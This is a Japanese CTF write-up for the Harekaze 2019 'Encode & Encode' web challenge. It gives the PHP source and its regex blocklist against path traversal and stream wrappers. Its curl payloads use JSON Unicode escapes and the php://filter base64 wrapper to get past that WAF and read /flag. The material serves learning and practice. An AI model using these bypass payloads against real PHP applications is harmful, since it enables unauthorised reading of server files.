 # Harekaze 2019 "Encode & Encode" writeup

## problem

```
I made a strong WAF, so you definitely can’t read the flag!
```

<http://problem.harekaze.com:10001/>

<http://153.127.202.154:1001/>

Docker で問題サーバーを立てることができます

```
$ cd src/
$ docker build ./ -t harekaze_encode_image
$ docker run --name harekaze_encode_container -d -p 80:80 harekaze_encode_image
```

## solution

```html
<script>
window.addEventListener('DOMContentLoaded', () => {
  let content = document.getElementById('content');
  for (let link of document.getElementsByClassName('link')) {
    link.addEventListener('click', () => {
      fetch('query.php', {
        'method': 'POST',
        'headers': {
          'Content-Type': 'application/json'
        },
        'body': JSON.stringify({
          'page': link.href.split('#')[1]
        })
      }).then(resp => resp.json()).then(resp => {
        content.innerHTML = resp.content;
      })
      return false;
    }, false);
  }
}, false);
</script>
```

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

まずフロント側では query.php に対し application/json 形式で page を POST している

```
$ curl -X POST -H "Content-Type: application/json" -d '{"page":"pages/about.html"}' http://localhost/query.php
```

そしてバックエンドでは受け取った json を読み込み、is_valid でチェックをし、file_get_contents でローカルファイルを読み込み、preg_replace を使いファイル内容を置き換えた後出力している。

また、Dockerfile で

```
RUN echo "HarekazeCTF{local_test}" > /flag
```

ルートディレクトリに flag ファイルがあることが分かる

よって方向性としては、

- is_valid に検知されないように {"page":"/flag"} を POST し、flag ファイルを読み込ませる

- flag ファイルの内容が preg_replace で置き換えられないようにエンコードして出力させる

となる

### is_valid のバイパス

JSON では \u と Unicode のコードポイント 16 進数 4 桁でユニコード文字を表現することが可能。

よって

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Escape_Unicode_Characters('%5C%5Cu',true,4,true)&input=L2ZsYWc>)

```
/flag
\u002F\u0066\u006C\u0061\u0067
```

と変換し、is_valid をバイパスすることができる

### preg_replace のバイパス

Unicode encoding で is_valid をバイパスすると

```
$ curl http://localhost/query.php -d '{"page":"\u002F\u0066\u006C\u0061\u0067"}'
{"content":"HarekazeCTF{&lt;censored&gt;}\n"}
```

flag が読み込まれるが preg_replace によって置き換えられてしまうので

[PHP 変換フィルタ](https://www.php.net/manual/ja/filters.convert.php)

を用いて falg を encode する

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Escape_Unicode_Characters('%5C%5Cu',true,4,true)&input=cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vZmxhZw>)

```
php://filter/convert.base64-encode/resource=/flag
\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067
```

```
$ curl "http://localhost/query.php" -d '{"page":"\u0070\u0068\u0070\u003A\u002F\u002F\u0066\u0069\u006C\u0074\u0065\u0072\u002F\u0063\u006F\u006E\u0076\u0065\u0072\u0074\u002E\u0062\u0061\u0073\u0065\u0036\u0034\u002D\u0065\u006E\u0063\u006F\u0064\u0065\u002F\u0072\u0065\u0073\u006F\u0075\u0072\u0063\u0065\u003D\u002F\u0066\u006C\u0061\u0067"}'
{"content":"SGFyZWthemVDVEZ7bG9jYWxfdGVzdH0K"}
```

base64 でデコードし flag get
